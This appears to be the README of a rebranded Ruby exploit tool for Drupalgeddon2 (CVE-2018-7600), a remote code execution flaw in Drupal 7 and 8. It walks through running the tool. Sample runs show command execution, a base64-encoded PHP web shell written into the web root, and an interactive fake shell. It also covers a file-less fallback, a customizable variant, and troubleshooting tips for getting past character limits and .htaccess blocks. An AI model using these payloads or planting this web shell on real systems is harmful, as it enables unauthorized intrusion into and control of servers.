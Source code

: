 # CVE-2018-7600 | Drupal 8.5.x < 8.5.1 / 8.4.x < 8.4.6 / 8.x < 8.3.9 / 7.x? < 7.58 / < 6.x? - 'S4nji1-Drupalgeddon2' RCE (SA-CORE-2018-002)

[Drupalggedon2 ~ https://github.com/emzkie2018/S4nji1-Drupalgeddon2/](https://github.com/emzkie2018/S4nji1-Drupalgeddon2/) _([https://www.drupal.org/sa-core-2018-002](https://www.drupal.org/sa-core-2018-002))_

Supports:
- Drupal **< 8.3.9** / **< 8.4.6** / **< 8.5.1** ~ `user/register` URL, attacking `account/mail` & `#post_render` parameter, using PHP's `passthru` function
- Drupal **< 7.58** ~ `user/password` URL, attacking `triggering_element_name` form & `#post_render` parameter, using PHP's `passthru` function
- Works with **direct commands** (aka File-Less Method) or writes a **PHP shell** to the web root (`./`) or sub-directories (`./sites/default/` & `./sites/default/files/`)
- Support **Linux** & **Windows** targets
- **Auto detects Drupal version** _(or takes a good guess!)_

The `user/register` method was chosen for Drupal v8.x, as it will return `HTTP 200`, and render the output in the `data` JSON response _(un-comment the code for `timezone`/`#lazy_builder` method, which will return `HTTP 500` & blind!)_ _([More Information](https://gist.github.com/g0tmi1k/7476eec3f32278adc07039c3e5473708))_

Authors:
- [Str4what-S4nj1](https://github.com/emzkie2018/S4nji1-Drupalgeddon2/)  _([@\_emzkie2018])_


Notes:
- For advance users/setups there is a more customizable exploit. See the `emzdrup-custom-beta.rb` section
- Before opening an issue, please, read the troubleshooting section at the end. Thanks!


- - -


## Usage:

```bash
$ ruby emzdrup2.rb
Usage: ruby emzdrup2.rb <target>
       ruby emzdrup2.rb https://example.com
$
```


### Drupal v8.x Example

_Drupal v8.x < v8.3.9 / v8.4.x < v8.4.6 / v8.5.x < v8.5.1_

```bash
$ ./emzdrup2.rb http://localhost/drupal-8/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://localhost/drupal-8/
--------------------------------------------------------------------------------
[!] MISSING: http://localhost/drupal-8/CHANGELOG.txt    (HTTP Response: 404)
[+] Found  : http://localhost/drupal-8/core/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal?: v8.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[i] Payload: echo TTTBJJBP
[+] Result : TTTBJJBP
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Writing To Web Root (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake shell:   curl 'http://localhost/drupal-8/s.php' -d 'c=hostname'
ubuntu140045x64-drupal>> uname -a
Linux ubuntu140045x64-drupal 3.13.0-144-generic #193-Ubuntu SMP Thu Mar 15 17:03:53 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
ubuntu140045x64-drupal>>
```


### Drupal v7.x Example

_Drupal < v7.58_

```bash
$ ./emzdrup2.rb http://localhost/drupal-7/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://localhost/drupal-7/
--------------------------------------------------------------------------------
[+] Found  : http://localhost/drupal-7/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.31
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[i] Payload: echo TKYPVVJJ
[+] Result : TKYPVVJJ
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Writing To Web Root (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake shell:   curl 'http://localhost/drupal-7/s.php' -d 'c=hostname'

ubuntu140045x64-drupal>> uptime
 14:52:33 up 4 days,  3:35,  1 user,  load average: 0.00, 0.01, 0.05
ubuntu140045x64-drupal>>
```


#### Direct Commands / Non PHP Shell (aka File-Less Method)

If either you do not want to even try and write a PHP web shell to the web server, edit the file as shown _(it will fall back if it can't find a writeable location anyway)_:

```ruby
try_phpshelltryphpshell = false
```

**Example**

```bash
$ ./emzdrup2.rb http://localhost/drupal-nonwrite/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://localhost/drupal-nonwrite/
--------------------------------------------------------------------------------
[!] MISSING: http://localhost/drupal-nonwrite/CHANGELOG.txt    (HTTP Response: 404)
[+] Found  : http://localhost/drupal-nonwrite/core/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal?: v8.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[i] Payload: echo HYCBAIET
[+] Result : HYCBAIET
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Writing To Web Root (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[!] Target is NOT exploitable for some reason [2] (HTTP Response: 404)...    Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root (sites/default/)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[!] Target is NOT exploitable for some reason [2] (HTTP Response: 404)...    Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root (sites/default/files/)
[*] Moving : ./sites/default/files/.htaccess
[i] Payload: mv -f sites/default/files/.htaccess sites/default/files/.htaccess-bak; echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/files/s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[!] Target is NOT exploitable for some reason [1] (HTTP Response: 403)...    May not be able to execute PHP from here?
[!] FAILED: Couldn't find writeable web path
--------------------------------------------------------------------------------
[*] Dropping back to direct commands
drupalgeddon2>> lsb_release -a
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.5 LTS
Release:	14.04
Codename:	trusty
drupalgeddon2>>
```


#### Proxy Support

For proxy support _(e.g. Burp)_, edit the file, replacing with your values. Example:

```ruby
proxy_addr = "192.168.0.130"
proxy_port = 8080
```


- - -


#### Experimental but usable: emzdrup2-custom-beta.rb

`emzdrup2-custom-beta.rb` is intended for more advance users as its more customizable. It allows you to specify some more parameters as the PHP method to use (not only `system()` or `passthru()`) and the way to reach user/password form.

Usage examples:

```
$ ruby emzdrup2-custom-beta.rb https://example.com 7 id passthru 0

1st parameter: Target URL
2nd parameter: Drupal version (e.g. 7 or 8)
3rd parameter: Command
4th parameter: PHP method to use (e.g. passthru, exec, system, assert...)
5th parameter: 0 for "/?q=user/password", 1 for "/user/password"
```


- - -


## Troubleshooting:

- The target may redirect to another path, where Drupal exists (such as `HTTP 30x` responses)
    - Solution: Make sure you are using the correct Drupal path

- There is a limitations of a allowed characters that are able to be used in the payload/command
    - Solution: This is due to how the vulnerability sees them and them being encoded for the URL request. Encode the payload, decode it on the target. Such as base64

- If the target is Linux, and isn't using "GNU base64", it may be the BSD version _(or its not installed all together!)_
    - Solution: which to `base64 -D` (rather than `base64 -d`) or use the file-less method

- If the target using Windows, writing the PHP shell always fails
    - Solution: Use file-less method. This is because gets pipe to a unix program, rather than using `certutil` or `PowerShell`

- Drupal v8.x - `./.htaccess` will stop any PHP scripts from executing in `./sites/default/` if that is the writeable folder
    - Solution: Switch to the file-less method

- Drupal v8.x - "clean URL" isn't enabled on the target
    - Solution: N/A - Not vulnerable =(

- Drupal v7.x - If the `/user/password` form is disabled, you meed find another form _(remember to change the exploit!)_
    - Solution: `form_id` parameter will change depending on the form used to exploit the vulnerability


- - -


## Links:

- Drupal SA-CORE-2018-002 Advisory ~ https://www.drupal.org/sa-core-2018-002
- CVE ~ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7600
- Write up & Research ~ https://research.checkpoint.com/uncovering-drupalgeddon-2/
- cURL commands/sample PoC ~ https://gist.github.com/g0tmi1k/7476eec3f32278adc07039c3e5473708
